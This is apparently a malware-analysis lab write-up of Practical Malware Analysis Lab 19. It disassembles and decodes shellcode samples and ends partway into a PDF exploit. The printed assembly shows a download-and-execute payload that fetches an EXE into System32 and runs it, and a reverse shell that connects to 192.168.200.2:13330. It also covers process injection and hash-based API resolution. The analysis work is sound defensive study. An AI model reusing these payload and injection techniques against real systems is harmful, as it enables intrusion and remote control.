

# Lab 19 - Shellcode Analysis

In these labs, we’ll use what we’ve covered in Chapter 19 to analyze samples inspired by real shellcode. Because a debugger cannot easily load and run shellcode directly, we’ll use a utility called shellcode_launcher.exe to dynamically analyze shellcode binaries. You’ll find instructions on how to use this utility in Chapter 19 and in the detailed analyses in Appendix C.

## Lab 19-1

Analyze the file Lab19-01.bin using shellcode_launcher.exe.

**1. How is the shellcode encoded?**

First we load the binary into _IDA Pro_ to see what it hides.

```
seg000:00000000                 inc     ecx
					...
seg000:000001FE                 inc     ecx
seg000:000001FF                 inc     ecx
seg000:00000200                 xor     ecx, ecx
seg000:00000202                 mov     cx, 18Dh			-> ECX = 18Dh
seg000:00000206                 jmp     short loc_21F
seg000:00000208
seg000:00000208 ; =============== S U B R O U T I N E =======================================
seg000:00000208
seg000:00000208
seg000:00000208 sub_208         proc near               ; CODE XREF: seg000:loc_21F↓p
seg000:00000208                 pop     esi
seg000:00000209                 push    esi
seg000:0000020A                 mov     edi, esi
seg000:0000020C
seg000:0000020C loc_20C:                                ; CODE XREF: sub_208+14↓j
seg000:0000020C                 lodsb
seg000:0000020D                 mov     dl, al
seg000:0000020F                 sub     dl, 41h ; 'A'
seg000:00000212                 shl     dl, 4
seg000:00000215                 lodsb
seg000:00000216                 sub     al, 41h ; 'A'
seg000:00000218                 add     al, dl
seg000:0000021A                 stosb
seg000:0000021B                 dec     ecx
seg000:0000021C                 jnz     short loc_20C
seg000:0000021E                 retn
seg000:0000021E sub_208         endp
seg000:0000021E
seg000:0000021F ; ---------------------------------------------------------------------------
seg000:0000021F
seg000:0000021F loc_21F:                                ; CODE XREF: seg000:00000206↑j
seg000:0000021F                 call    sub_208
seg000:00000224                 dec     ecx
```

As we can see, first we have a block of _0x200_ bytes of _inc ecx_ instructions, something that is useless since at _0x00000200_ the binary executes a _xor ecx, ecx_ instruction. So we can conclude that this block of code is just a _NOP sled_ but without using the _0x90_ opcode.

Then, the binary adds the value _0x18D_ to _ECX_ and jumps to the instruction located at _0x0000021F_, which will call to the function at _0x00000208_.


This function is a loop that will execute the following instructions:

```
lodsb			-> AL = [SI] (ESI + 1)
mov     dl, al		-> DL = AL
sub     dl, 41h ; 'A'	-> DL = DL - 0x41
shl     dl, 4		-> DL = DL << 4
lodsb			-> AL = [SI] (ESI + 1)
sub     al, 41h ; 'A'	-> AL = AL - 0x41
add     al, dl		-> AL = AL + DL
stosb			-> [DI] = AL (EDI + 1)
dec     ecx		-> ECX = ECX - 1 (Initial ECX value is 0x8D = 141)
jnz     short loc_20C
```

Before that, we have to take in mind that the following instructions are executed:

```
pop     esi		-> ESI = ESP = return address = 0x00000224
push    esi
mov     edi, esi	-> EDI = ESI = ESP = 0x00000224
```

So now that we know the value of _ESI_ and _EDI_ is _ESP_ and _ESP_ point to the data after the call instruction, we can see that this routine seems to decode the next part of the binary, composed by 141 bytes.

So let's write a _Python_ decoder:

```
MAX_VALUE = 0xFF

def decrypt_file():
	decoded_bytes = bytearray()
	key = 0x41
	counter = 0x18D

	with open("Scripts/Labs/Lab_19/lab19-01.bin", "rb") as encoded_file:
		encoded_file.seek(0x224)
		encoded_byte = encoded_file.read(1)

		while counter > 0:
			value_1 = (((int.from_bytes(encoded_byte, byteorder="big") - key) & MAX_VALUE) << 4) & MAX_VALUE
			encoded_byte = encoded_file.read(1)

			value_2 = (int.from_bytes(encoded_byte, byteorder="big") - key) & MAX_VALUE
			decoded_byte = (value_2 + value_1) & MAX_VALUE
			decoded_bytes.append(decoded_byte)

			counter = counter - 1
			encoded_byte = encoded_file.read(1)

	return decoded_bytes

def save_decrypted_file(decoded_bytes):
	decoded_file = open("Scripts/Labs/Lab_19/lab19-01_stage_2.bin", "wb")
	decoded_file.write(decoded_bytes)

decoded_bytes = decrypt_file()
save_decrypted_file(decoded_bytes)
```

We execute it...

```
python3 Scripts/Labs/Lab_19/lab19_01_decode_next_stage.py
```

Great! We have decoding the second stage!


**2. Which functions does the shellcode manually import?**

To know what functions the sample imports, we need to analyze the second stage of the shellcode.

The first instructions executed are the following:

```
seg000:00000000                 mov     ebp, esp
seg000:00000002                 sub     esp, 40h
seg000:00000008                 jmp     loc_140
```

As we can see, the execution flow goes to the offset _0x00000140_, which will execute:

```
seg000:00000140                 call    loc_9B
```

A call instruction to _loc_9B_:

```
seg000:0000009B loc_9B:
seg000:0000009B                 pop     ebx					-> EBX = return address = 0x00000145
seg000:0000009C                 call    loc_7A
...
```

This function seems to have some hashes, but before the execution flow gets there, two instructions are executed first. The first one will pop the return address of the previous call (_0x00000145_) to _EBX_, which it points to some interesting strings:

```
seg000:00000145 aUrlmon         db 'URLMON',0
seg000:0000014C aHttpWwwPractic db 'http://www.practicalmalwareanalysis.com/shellcode/annoy_user.exe',0
```

The second one will redirect the execution flow to a new routine _loc_7A_, which is as follows:

```
seg000:0000007A loc_7A:                                 ; CODE XREF: seg000:0000009C↓p
seg000:0000007A                 push    esi
seg000:0000007B                 xor     eax, eax
seg000:0000007D                 mov     eax, fs:[eax+30h]		-> PEB
seg000:00000081                 test    eax, eax
seg000:00000083                 js      short loc_94
seg000:00000085                 mov     eax, [eax+0Ch]			-> EAX = PEB_LDR
seg000:00000088                 mov     esi, [eax+1Ch]			-> ESI = InInitializationOrderModuleList (pointer to LDR_DATA_TABLE_ENTRY[0x10])
seg000:0000008B                 lodsd					-> EAX = ESI = LDR_DATA_TABLE_ENTRY[0x10] 
seg000:0000008C                 mov     eax, [eax+8]			-> EAX = LDR_DATA_TABLE_ENTRY[0x10 + 0x8] = DllBase
seg000:0000008F                 jmp     loc_99
seg000:00000094 ; ---------------------------------------------------------------------------
seg000:00000094
seg000:00000094 loc_94:                                 ; CODE XREF: seg000:00000083↑j
seg000:00000094                                         ; seg000:loc_94↓j
seg000:00000094                 jmp     loc_94				-> Infinit loop
seg000:00000099 ; ---------------------------------------------------------------------------
seg000:00000099
seg000:00000099 loc_99:                                 ; CODE XREF: seg000:0000008F↑j
seg000:00000099                 pop     esi
seg000:0000009A                 retn
```

First, this function will locate the _PEB_ struct in the _TEB_ struct at offset _0x30_. Then, at offset _0xC_ in the _PEB_ structure the pointer to the _PEB_LDR_DATA_ structure is obtained. After that, at offset _0x1C_ in the _PEB_LDR_DATA_ structure, a pointer to the _LDR_DATA_TABLE_ENTRY_ called _InInitializationOrderModuleList_ is accessed, this piece of data will also point to another _LDR_DATA_TABLE_ENTRY_ plus _0x10_. Finally, it will obtain the value of _DllBase_ at offset _0x8_, which corresponds to the _DllBase_ value of _kernel32.dll_ in _WindowsXP_. Notice that if the function fails to get the _PEB_ struct, it will run forever in an infinit loop.


Then, it will return to the previous function at this point:

```
seg000:000000A1                 mov     edx, eax
seg000:000000A3                 push    0EC0E4E8Eh
seg000:000000A8                 push    edx
seg000:000000A9                 call    sub_2E
seg000:000000AE                 mov     [ebp-4], eax
seg000:000000B1                 push    0B8E579C1h
seg000:000000B6                 push    edx
seg000:000000B7                 call    sub_2E
seg000:000000BC                 mov     [ebp-8], eax
seg000:000000BF                 push    78B5B983h
seg000:000000C4                 push    edx
seg000:000000C5                 call    sub_2E
seg000:000000CA                 mov     [ebp-0Ch], eax
seg000:000000CD                 push    7B8F17E6h
seg000:000000D2                 push    edx
seg000:000000D3                 call    sub_2E
seg000:000000D8                 mov     [ebp-10h], eax
seg000:000000DB                 push    0E8AFE98h
seg000:000000E0                 push    edx
seg000:000000E1                 call    sub_2E
seg000:000000E6                 mov     [ebp-14h], eax
seg000:000000E9                 lea     eax, [ebx]
seg000:000000EB                 push    eax
seg000:000000EC                 call    dword ptr [ebp-4]
seg000:000000EF                 push    702F1A36h
seg000:000000F4                 push    eax
seg000:000000F5                 call    sub_2E
seg000:000000FA                 mov     [ebp-18h], eax
seg000:000000FD                 push    80h
seg000:00000102                 lea     edi, [ebx+48h]
seg000:00000105                 push    edi
seg000:00000106                 call    dword ptr [ebp-8]
seg000:00000109                 add     edi, eax
seg000:0000010B                 mov     dword ptr [edi], 652E315Ch
seg000:00000111                 mov     dword ptr [edi+4], 6578h
seg000:00000118                 xor     ecx, ecx
seg000:0000011A                 push    ecx
seg000:0000011B                 push    ecx
seg000:0000011C                 lea     eax, [ebx+48h]
seg000:0000011F                 push    eax
seg000:00000120                 lea     eax, [ebx+7]
seg000:00000123                 push    eax
seg000:00000124                 push    ecx
seg000:00000125                 call    dword ptr [ebp-18h]
seg000:00000128                 push    5
seg000:0000012D                 lea     eax, [ebx+48h]
seg000:00000130                 push    eax
seg000:00000131                 call    dword ptr [ebp-14h]
seg000:00000134                 call    dword ptr [ebp-10h]
seg000:00000137                 push    0
seg000:0000013C                 push    eax
seg000:0000013D                 call    dword ptr [ebp-0Ch]
```

As we can see, the function _sub_2E_ is called 6 times in this function, also we check how it passes two arguments:

```
mov     edx, eax	-> EDX = kernel32.dll DllBase
push    0EC0E4E8Eh	-> Hash
push    edx		-> kernel32.dll DllBase
call    sub_2E
```

These two arguments are some kind of hash and the previously obtained _kernel32.dll_ _DLLBase_. Let's see what this funcion hides:


It seems that it performs some function search over the _IMAGE_EXPORT_DIRECTORY_ struct of _kernel32.dll_. Notice that a new function (_sub_D_) is called, it seems to be the hashing function. Let's dig into it and see if we can replicate it in a _Python_ script.


```
import os
import sys

hashes = [
	0xEC0E4E8E,
	0xB8E579C1,
	0x78B5B983,
	0x7B8F17E6,
	0xE8AFE98,
	0x702F1A36
]

MAX_VALUE = 0xFFFFFFFF
INT_BITS = 32

# Left rotate of bits
def rotr(num, bits):
	return ((num >> bits)|(num << (INT_BITS - bits))) & MAX_VALUE

def get_hash(function_name):
	result = 0
	counter = 0
	while counter < len(function_name):
		result = (rotr(result, 0xD) + ord(function_name[counter])) & MAX_VALUE
		counter = counter + 1

	return result

def check_hash(function_name, hash_value):
	return get_hash(function_name) == hash_value

# Reads the file
def read_file(file):
	for hash_value in hashes:
		found = False
		with open(file, "r") as wordlist:
			function_name = wordlist.readline().rstrip('\n')
			while function_name and not found:
				found = check_hash(function_name, hash_value)
				if not found:
					function_name = wordlist.readline().rstrip('\n')

			if found:
				print("Occurrence found! The decrypted hash " + hex(hash_value) + " is: " + function_name)
			else:
				print("No occurrence found for hash " + hex(hash_value) + "!")

# Gets file from args
def get_file_from_args():
	if len(sys.argv) == 2:
		filename = sys.argv[1]
		if os.path.exists(filename):
			return filename

file = get_file_from_args()
if file:
	read_file(file)
else:
	print("Please provide a wordlist")
```

Now, we need to create a wordlist of exported functions of _kernel32.dll_ (_Windows XP_ version), to do so we use the script _get_file_exports.py_:

```
C:\> python get_file_exports.py kernel32.dll

######################
EXPORTS
######################
ActivateActCtx
AddAtomA
AddAtomW
AddConsoleAliasA
AddConsoleAliasW
...
lstrcpyn
lstrcpynA
lstrcpynW
lstrlen
lstrlenA
lstrlenW
```

The complete list is composed by 953 exports!

So now, we execute our script using this wordlist as follows (some changes may have to be done, since this script is also used in other exercises):

```
$ python3 Scripts/Labs/Lab_19/lab19_hashing_function.py Scripts/Labs/Lab_19/kernel32_exports.txt

Occurrence found! The decrypted hash 0xec0e4e8e is: LoadLibraryA
Occurrence found! The decrypted hash 0xb8e579c1 is: GetSystemDirectoryA
Occurrence found! The decrypted hash 0x78b5b983 is: TerminateProcess
Occurrence found! The decrypted hash 0x7b8f17e6 is: GetCurrentProcess
Occurrence found! The decrypted hash 0xe8afe98 is: WinExec
No occurrence found for hash 0x702f1a36!
```

Great! We have identified almost every function call, only the one with the value _0x702f1a36_ is unknown, may be because it is located in other library. Let's see what happens in the function _loc_9B_.

```
seg000:000000E9                 lea     eax, [ebx]
seg000:000000EB                 push    eax		; URLMON
seg000:000000EC                 call    dword ptr [ebp-4] ; LoadLibraryA
seg000:000000EF                 push    702F1A36h
seg000:000000F4                 push    eax
seg000:000000F5                 call    sub_2E
```

As we can see, the shellcode will call _LoadLibraryA_ using the string _URLMON_ pointed by _EBX_. So we need to get the exports of _urlmon.dll_ in order to get the last import:

```
C:\> python get_file_exports.py urlmon.dll

######################
EXPORTS
######################
AsyncGetClassBits
AsyncInstallDistributionUnit
BindAsyncMoniker
...
UrlMkSetSessionOption
WriteHitLogging
ZonesReInit
```

In this case, the library has a total of 86 functions, let's see if now we get the last import (some changes may have to be done, since this script is also used in other exercises):

```
$ python3 Scripts/Labs/Lab_19/lab19_hashing_function.py Scripts/Labs/Lab_19/urlmon_exports.txt

No occurrence found for hash 0xec0e4e8e!
No occurrence found for hash 0xb8e579c1!
No occurrence found for hash 0x78b5b983!
No occurrence found for hash 0x7b8f17e6!
No occurrence found for hash 0xe8afe98!
Occurrence found! The decrypted hash 0x702f1a36 is: URLDownloadToFileA
```

Great! We have found the last function!

Now, the function _sub_9B_ looks like this:

```
seg000:0000009B loc_9B:                                 ; CODE XREF: seg000:loc_140↓p
seg000:0000009B                 pop     ebx
seg000:0000009C                 call    loc_7A
seg000:000000A1                 mov     edx, eax
seg000:000000A3                 push    0EC0E4E8Eh      ; LoadLibraryA
seg000:000000A8                 push    edx
seg000:000000A9                 call    sub_2E
seg000:000000AE                 mov     [ebp-4], eax
seg000:000000B1                 push    0B8E579C1h      ; GetSystemDirectoryA
seg000:000000B6                 push    edx
seg000:000000B7                 call    sub_2E
seg000:000000BC                 mov     [ebp-8], eax
seg000:000000BF                 push    78B5B983h       ; TerminateProcess
seg000:000000C4                 push    edx
seg000:000000C5                 call    sub_2E
seg000:000000CA                 mov     [ebp-0Ch], eax
seg000:000000CD                 push    7B8F17E6h       ; GetCurrentProcess
seg000:000000D2                 push    edx
seg000:000000D3                 call    sub_2E
seg000:000000D8                 mov     [ebp-10h], eax
seg000:000000DB                 push    0E8AFE98h       ; WinExec
seg000:000000E0                 push    edx
seg000:000000E1                 call    sub_2E
seg000:000000E6                 mov     [ebp-14h], eax
seg000:000000E9                 lea     eax, [ebx]
seg000:000000EB                 push    eax            	; URLMON
seg000:000000EC                 call    dword ptr [ebp-4] ; LoadLibraryA
seg000:000000EF                 push    702F1A36h       ; URLDownloadToFileA
seg000:000000F4                 push    eax
seg000:000000F5                 call    sub_2E
seg000:000000FA                 mov     [ebp-18h], eax
seg000:000000FD                 push    80h
seg000:00000102                 lea     edi, [ebx+48h]
seg000:00000105                 push    edi
seg000:00000106                 call    dword ptr [ebp-8] ; GetSystemDirectoryA
seg000:00000109                 add     edi, eax
seg000:0000010B                 mov     dword ptr [edi], 652E315Ch	; 'e.1\'
seg000:00000111                 mov     dword ptr [edi+4], 6578h	; 'ex'
seg000:00000118                 xor     ecx, ecx
seg000:0000011A                 push    ecx
seg000:0000011B                 push    ecx
seg000:0000011C                 lea     eax, [ebx+48h]
seg000:0000011F                 push    eax
seg000:00000120                 lea     eax, [ebx+7]
seg000:00000123                 push    eax
seg000:00000124                 push    ecx
seg000:00000125                 call    dword ptr [ebp-18h] ; URLDownloadToFileA
seg000:00000128                 push    5
seg000:0000012D                 lea     eax, [ebx+48h]
seg000:00000130                 push    eax
seg000:00000131                 call    dword ptr [ebp-14h] ; WinExec
seg000:00000134                 call    dword ptr [ebp-10h] ; GetCurrentProcess
seg000:00000137                 push    0
seg000:0000013C                 push    eax
seg000:0000013D                 call    dword ptr [ebp-0Ch] ; TerminateProcess
```

**3. What network host does the shellcode communicate with?**

The shellcode will call _URLDownloadToFileA_ to download a file from _http://www.practicalmalwareanalysis.com/shellcode/annoy_user.exe_.

```
seg000:0000011A                 push    ecx
seg000:0000011B                 push    ecx
seg000:0000011C                 lea     eax, [ebx+48h]
seg000:0000011F                 push    eax
seg000:00000120                 lea     eax, [ebx+7]	; http://www.practicalmalwareanalysis.com/shellcode/annoy_user.exe
seg000:00000123                 push    eax	; szURL = http://www.practicalmalwareanalysis.com/shellcode/annoy_user.exe
seg000:00000124                 push    ecx
seg000:00000125                 call    dword ptr [ebp-18h] ; URLDownloadToFileA
```

**4. What filesystem residue does the shellcode leave?**

We can see in function _sub_9B_ how the sample calls _GetSystemDirectoryA_ prior to do this:

```
seg000:00000102                 lea     edi, [ebx+48h]
seg000:00000105                 push    edi
seg000:00000106                 call    dword ptr [ebp-8] ; GetSystemDirectoryA
seg000:00000109                 add     edi, eax
seg000:0000010B                 mov     dword ptr [edi], 652E315Ch	; 'e.1\'
seg000:00000111                 mov     dword ptr [edi+4], 6578h	; 'ex'
```

As we can see, it will get the system directory and append a filename to it, resulting in:

```
C:\Windows\System32\1.exe
```

Then, it will call _URLDownloadToFileA_ to download a file to this location.

```
seg000:0000011A                 push    ecx
seg000:0000011B                 push    ecx
seg000:0000011C                 lea     eax, [ebx+48h]	; 'C:\Windows\System32\1.exe'
seg000:0000011F                 push    eax	; szFileName = 'C:\Windows\System32\1.exe'
seg000:00000120                 lea     eax, [ebx+7]	; http://www.practicalmalwareanalysis.com/shellcode/annoy_user.exe
seg000:00000123                 push    eax	; szURL = http://www.practicalmalwareanalysis.com/shellcode/annoy_user.exe
seg000:00000124                 push    ecx
seg000:00000125                 call    dword ptr [ebp-18h] ; URLDownloadToFileA
```

**5. What does the shellcode do?**

The shellcode will download a binary file from _http://www.practicalmalwareanalysis.com/shellcode/annoy_user.exe_, it will save it in the file "C:\Windows\System32\1.exe" (as explained) and then it will execute it by means of _WinExec_:

```
seg000:0000012D                 lea     eax, [ebx+48h]	; 'C:\Windows\System32\1.exe'
seg000:00000130                 push    eax	; lpCmdLine = 'C:\Windows\System32\1.exe'
seg000:00000131                 call    dword ptr [ebp-14h] ; WinExec
```

Finally, the sample will terminate as follows:

```
seg000:00000134                 call    dword ptr [ebp-10h] ; GetCurrentProcess
seg000:00000137                 push    0
seg000:0000013C                 push    eax
seg000:0000013D                 call    dword ptr [ebp-0Ch] ; TerminateProcess
```

## Lab 19-2

The file Lab19-02.exe contains a piece of shellcode that will be injected into another process and run. Analyze this file.

**1. What process is injected with the shellcode?**

First, the malware will enable the _SeDebugPrivilege_ that will allow to inject the shellcode into some process at function _enable_privilege_ (_0x004010B0_).


Then, it will get the path of the default browser by means of the "\http\shell\open\command" registry key, in our case, _Internet Explorer_, in the function _get_browser_path_ (_0x00401000_).


Once the sample has the path, it will spawn a new process in the routine called _create_process_ (_0x0401180_) using this path and then, it will inject some data into this process at _inject_process_ function (_0x00401230_).


**2. Where is the shellcode located?**

We need to analyze the function _inject_process_ (_0x00401230_) to see where the shellcode is located.

In the function we can see the classical process injection using _OpenProcess_, _VirtualAllocEx_, _WriteProcessMemory_ and _CreateRemoteThread_.


Now, to get the piece of shellcode we need analyze how the sample calls _WriteProcessMemory_.


As we can see, the variable _lpBuffer_ is a pointer to a buffer that contains the shellcode. If we track this variable backwards, we can see how it is passed to the _inject_process_ function as argument in a variable called _unk_407030_ (_0x7030_). Also, we can see its size, 423 (_0x1A7_).


If we take a look to what it stores, we can see the shellcode, so we rename this variable as so.


**3. How is the shellcode encoded?**

First, before starting the analysis, we decide to extract the shellcode into a new binary file, we use script we have developed to do so located at `Scripts/General/extract_shellcode.py` to do so. We only need to know the offset where the shellcode is located (_0x7030_) and its size (423):

```
$ python3 Scripts/General/extract_shellcode.py Scripts/Labs/Lab_19/Lab19-02.exe 0x7030 423
[+] Shellcode successfully extracted
[+] Shellcode successfully saved in the file: Scripts/Labs/Lab_19/Lab19-02.bin
```

Great! We can now load it in _IDA Pro_ and see what it does.


The first executed instruction is:

```
seg000:00000000                 jmp     short loc_13
```

This will jump to a call instruction at _0x13_:

```
seg000:00000013 loc_13:                                 ; CODE XREF: seg000:00000000↑j
seg000:00000013                 call    loc_2
```

This call instruction executes the function at _0x02_:

```
seg000:00000002 loc_2:                                  ; CODE XREF: seg000:loc_13↓p
seg000:00000002                 pop     edi		-> Pointer to return address: 0x18
seg000:00000003                 push    small 18Fh
seg000:00000007                 pop     cx		-> CX = 0x18F -> EXC = 0x18F = 399
seg000:00000009                 mov     al, 0E7h	-> AL = 0xE7
seg000:0000000B
seg000:0000000B loc_B:                                  ; CODE XREF: seg000:0000000E↓j
seg000:0000000B                 xor     [edi], al	-> EDI[counter] = EDI[counter] ^ AL
seg000:0000000D                 inc     edi		-> counter = counter + 1
seg000:0000000E                 loopw   loc_B		-> ECX = ECX + 1 | jump to 0xB
seg000:00000011                 jmp     short loc_18	-> Jump to decoded code
```

As we can see, it's a loop that iterates 399 (_0x18F_) times over the code after the call instruction applying a XOR operation with _0xE7_ as key.

We reproduce this behaviour in the following python script:

```
MAX_VALUE = 0xFF

def decrypt_file():
	decoded_bytes = bytearray()
	key = 0xE7
	counter = 0x18F

	with open("Scripts/Labs/Lab_19/lab19-02.bin", "rb") as encoded_file:
		encoded_file.seek(0x18)
		encoded_byte = int.from_bytes(encoded_file.read(1), byteorder="big")

		while counter > 0:
			decoded_byte = (encoded_byte ^ key) & MAX_VALUE
			decoded_bytes.append(decoded_byte)

			counter = counter - 1
			encoded_byte = int.from_bytes(encoded_file.read(1), byteorder="big")

	return decoded_bytes

def save_decrypted_file(decoded_bytes):
	decoded_file = open("Scripts/Labs/Lab_19/lab19-02_stage_2.bin", "wb")
	decoded_file.write(decoded_bytes)

decoded_bytes = decrypt_file()
save_decrypted_file(decoded_bytes)
```

To execute it, we just:

```
$ python3 Scripts/Labs/Lab_19/lab19_02_decode_next_stage.py
```

Now, we can open it with IDA Pro as any regular binary file.


**4. Which functions does the shellcode manually import?**

We have to analyze what the shellcode does first, before importing any function.

First, it will jump to a call instruction at _0x16E_:

```
seg000:00000008                 jmp     loc_16E
...
seg000:0000016E                 call    loc_9B
```

This call instruction will execute the following piece of code at _0x9B_:

```
seg000:0000009B                 pop     esi		-> Pointer to return address at 0x173
seg000:0000009C                 mov     ebx, esi	-> EBX = pointer to return address at 0x173
seg000:0000009E                 mov     edi, esi	-> EDI = pointer to return address at 0x173
seg000:000000A0                 call    sub_7A
```

As we can see, a pointer to return address (_0x173_) of the call instruction is stored in _ESI_, also this value is stored in _EBX_ and _EDI_. Then, it will call a function at _0x7A_.


As we can see, is the same routine of the previous shellcode to get the _kernel32.dll_ _DllBase_ address.

When the function returns, it will store the result into _EDX_, aside from _EAX_, and store the value 4 in _ECX_.

```
seg000:000000A5                 mov     edx, eax
seg000:000000A7                 mov     ecx, 4
```

Then, it will loop as follows 4 times (value of _ECX_).

```
seg000:000000AC loc_AC:                                 ; CODE XREF: seg000:000000B5↓j
seg000:000000AC                 lodsd
seg000:000000AD                 push    eax             ; EAX = value of address at 0x173
seg000:000000AE                 push    edx             ; kernel32 DllBase
seg000:000000AF                 call    sub_2E
seg000:000000B4                 stosd
seg000:000000B5                 loop    loc_AC
```

It will load the value stored at _0x173_ (the value of _ESI_) and then call the function at _0x2E_.


As we can see, is the same function that will loop over the _IMAGE_EXPORT_DIRECTORY_ struct of _kernel32.dll_ to get the address of the needed functions. Also, the function _sub_D_ 


As we can see, is the same hashing function used in the previous exercise.

So now, we can use the same script of the exercise 1 to get the imported functions, but first, we need to get the hashes at _0x173_:

```
seg000:00000173                 db 8Eh
seg000:00000174                 db  4Eh ; N
seg000:00000175                 db  0Eh
seg000:00000176                 db 0ECh
seg000:00000177                 db  72h ; r
seg000:00000178                 db 0FEh
seg000:00000179                 db 0B3h
seg000:0000017A                 db  16h
seg000:0000017B                 db  83h
seg000:0000017C                 db 0B9h
seg000:0000017D                 db 0B5h
seg000:0000017E                 db  78h ; x
seg000:0000017F                 db 0E6h
seg000:00000180                 db  17h
seg000:00000181                 db  8Fh
seg000:00000182                 db  7Bh
```

We have selected the 16 bytes that composes the 4 hashes (4 bytes each element). So the hashes are (click 'D' key 2 times):

```
seg000:00000173                 dd 0EC0E4E8Eh
seg000:00000177                 dd 16B3FE72h
seg000:0000017B                 dd 78B5B983h
seg000:0000017F                 dd 7B8F17E6h
```

We use the wordlist of _kernel32.dll_ exported functions in the script and (some changes may have to be done, since this script is also used in other exercises)...

```
$ python3 Scripts/Labs/Lab_19/lab19_hashing_function.py Scripts/Labs/Lab_19/kernel32_exports.txt

Occurrence found! The decrypted hash 0xec0e4e8e is: LoadLibraryA
Occurrence found! The decrypted hash 0x16b3fe72 is: CreateProcessA
Occurrence found! The decrypted hash 0x78b5b983 is: TerminateProcess
Occurrence found! The decrypted hash 0x7b8f17e6 is: GetCurrentProcess
```

Great! But... We have to check if this hashing function is used again, to see if the sample imports some other functions.

So after executing the function _sub_2E_, the shellcode will execute the following instruction:

```
seg000:000000B4                 stosd
```

This will store the value at _EAX_ (the address of the imported function) to the address pointed by registry _EDI_ and, if we remember, _EDI_ will point to the same loacation of _ESI_ and _EBX_, the address at _0x173_.

So now, the next instructions the sample will execute are:

```
seg000:000000B7                 push    3233h           ; '23'
seg000:000000BC                 push    5F327377h       ; '_2sw'
seg000:000000C1                 push    esp
seg000:000000C2                 call    dword ptr [ebx] ; LoadLibraryA
seg000:000000C4                 mov     edx, eax
seg000:000000C6                 mov     ecx, 3
seg000:000000CB
seg000:000000CB loc_CB:                                 ; CODE XREF: seg000:000000D4↓j
seg000:000000CB                 lodsd
seg000:000000CC                 push    eax
seg000:000000CD                 push    edx
seg000:000000CE                 call    sub_2E		; look for funtions
seg000:000000D3                 stosd
seg000:000000D4                 loop    loc_CB
```

As we can see, it will use _LoadLibraryA_ to load the library _ws2_32_ (take in mind little endian). Then it will loop 3 times over its _IMAGE_EXPORT_DIRECTORY_ struct using the hashes stored after the ones located at _0x173_ to get the expected functions. The hashes that will use are:

```
seg000:00000183                 dd 3BFCEDCBh
seg000:00000187                 dd 0ADF509D9h
seg000:0000018B                 dd 60AAF9ECh
```

We get the exported functions of such library _ws2_32_, we introduce the hashes into the script and then we execute it (some changes may have to be done, since this script is also used in other exercises):

```
$ python3 Scripts/Labs/Lab_19/lab19_hashing_function.py Scripts/Labs/Lab_19/ws2_32_exports.txt 

Occurrence found! The decrypted hash 0x3bfcedcb is: WSAStartup
Occurrence found! The decrypted hash 0xadf509d9 is: WSASocketA
Occurrence found! The decrypted hash 0x60aaf9ec is: connect
```

Then, as seen before, the result will be stored as the previous functions.

So now, we can fully analyze the rest of the shellcode.

**5. What network hosts does the shellcode communicate with?**

We need to analyze the main code of the shellcode to understand this.


As we can see, the shellcode will use the well known _WSAStartup_, _WSASocketA_ and _connect_ to connect to a remote host, but which host exactly?

We have to analyze the _connect_ call to find it:

```
seg000:00000104                 push    2C8A8C0h
seg000:00000109                 push    12340002h
seg000:0000010E                 mov     ecx, esp
seg000:00000110                 push    10h
seg000:00000115                 push    ecx
seg000:00000116                 push    eax
seg000:00000117                 call    dword ptr [ebx+18h] ; connect
```

As we can see, it uses a _sockaddr_ struct to pass the host information. This struct is composed by:

```
struct sockaddr_in {
        short   sin_family;		-> 2 bytes
        u_short sin_port;		-> 2 bytes
        struct  in_addr sin_addr;
        char    sin_zero[8];
};
```

The struct value of the shellcode is:

```
2C8A8C012340002
```

This can be decomposed as follows (take in mind endianness):

```
0002	-> AF_INET
3412	-> 13330
C0	-> 192
A8	-> 168
C8	-> 200
02	-> 2

```

So now, we have the port and the _IP_ address:

```
192.168.200.2:13330
```

**6. What does the shellcode do?**

After connecting to the C&C, the shellcode will spawn a remote shell, but how?

It will setup the _PROCESS_STARTUP_INFO_ struct to redirect the _stdInput_, _stdOutput_ and _stdError_ to the _socket_. Also, it is important to notice how the shellcode sets the argument _bInheritHandles_ to 1, indicating that file handles opened by the shellcode will be available to the child process


Finally, the current process will terminate.


## Lab 19-3

Analyze the file Lab19-03.pdf. If you get stuck and can’t find the shellcode, just skip that part of the lab and analyze file Lab19-03_sc.bin using shellcode_launcher.exe.

**1. What exploit is used in this PDF?**

First, we need to get the components of the _PDF_ and if one of them is a _Javascript_ one, extract it. To do so we use _PDFStreamDumper_.


As we can see, several interesting components have been identified, let's explore them.

Great! The 9th one, located between _0x276_ and _0x1012_, seems to contain the exploit code and the payload!
```
